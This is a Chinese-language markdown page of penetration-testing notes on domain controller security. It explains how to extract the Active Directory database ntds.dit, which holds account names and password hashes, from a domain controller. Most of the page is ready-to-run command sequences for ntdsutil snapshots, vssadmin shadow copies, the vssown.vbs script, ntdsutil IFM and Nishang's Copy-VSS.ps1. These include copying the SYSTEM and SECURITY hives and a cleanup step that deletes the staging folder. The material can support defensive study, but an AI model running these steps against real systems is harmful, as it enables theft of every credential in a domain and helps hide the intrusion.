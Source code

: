 # 6 域控制器安全
## 6.1 使用卷影拷贝服务提取ntds.dit
> 卷影拷贝服务(Volume Shadow Copy Service,VSS),本质属于"快照",用于备份和恢复
> ntds.dit,二进制文件,存储在与控制器的%systemroot%\ntds\ntds.dit,包含用户名,散列值,组,GPP,OU等与活动目录相关的信息,与SAM一样处于被锁定状态
### 6.1.1 通过ntdsutil.exe提取ntds.dit
> 默认安装在域控制器上,可以在域控制器上直接操作,也可以通过域内机器在与控制器上远程操作,支持windows server 2003,2008,2012
> 为活动目录提供管理机制的命令行工具
```cmd
//在域控制器的命令行环境下输入如下命令,创建一个快照,该快照包含windows中的所有文件,且在复制文件时不会收到windows锁定机制的限制
ntdsutil snapshot "activate instance ntds" create quit quit
//加载刚刚创建的快照(GUID),将快照加载到系统中
ntdsutil snapshot "mount {GUID}" quit quit
//使用copy命令将快照中的文件复制到c:\temp\ntds.dit
copy C:\快照加载成功的目录\windows\ntds\ntds.dit c:\temp\ntds.dit
//卸载并删除之前加载的快照
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
//查询当前系统中的所有快照
ntdsutil snapshot "List ALL" quit quit
```
### 6.1.2 利用vssadmin提取ntds.dit
> 支持windows server 2008和windows7
> 可创建和删除卷影拷贝,列出卷影拷贝的信息(只能管理系统Provider创建的卷应拷贝),,显示已安装的所有卷影拷贝写入程序(writers)和提供程序(Providers),以及改变卷影拷贝的存储空间(diff空间)的大小
```cmd
//创建一个C盘的卷影拷贝
vssadmin create shadow /for=c:
//在创建的卷影拷贝中将ntds.dit复制出来
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\NTDS\ntds.dit c:ntds.dit
//删除快照
vssadmin delete shadow /for=c: quiet
```
### 6.1.3 使用vssown.vbs脚本提取ntds.dit
> 可创建和删除卷影拷贝,启动和停止卷影拷贝
```cmd
//启动卷影拷贝服务
cscript vssown.vbs /start
//创建一个C盘的卷影拷贝
cscript vssown.vbs /create c
//列出当前的卷影拷贝
cscript vssown.vbs /list
//删除卷影拷贝
cscript vssown.vbs /delete {ID}
//复制ntds.dit
copy \\list列出的卷影拷贝地址\windows\NTDS\ntds.dit c:\ntds.dit
```
### 6.1.4 使用ntdsutil的IFM创建卷影拷贝
> 使用ntdsutil创建IFM时,需要进行生成快照,加载,将ntds.dit和计算机的SAM文件复制到目标文件夹中等操作,这些操作也可以通过wmi或powershell远程执行
在域控制器中以管理员模式打开命令行环境
```cmd
ntdsutil "ac i ntds" "ifm" "create fyll c:/test" q q
//然后将ntds.dit复制到c:\test\Active Directoy\文件夹下(命令省略)
//然后将system和security两项复制到C:\test\registry\文件夹下(命令省略)
//将ntds.dit拖回本地后,在目标机器上将test文件夹删除
rmdir /s/q test
```
在Nishang中有一个powershell脚本Copy-VSS.ps1.将该脚本提取出来,在域控制器中打开一个powershell窗口,然后输入如下命令,导入并执行该脚本
通过该脚本,可以将SAM,SYSTEM,ntds.dit复制到与该脚本相同目录中
```powershell
import-module .\cpoy-vss.ps1
copy-vss
```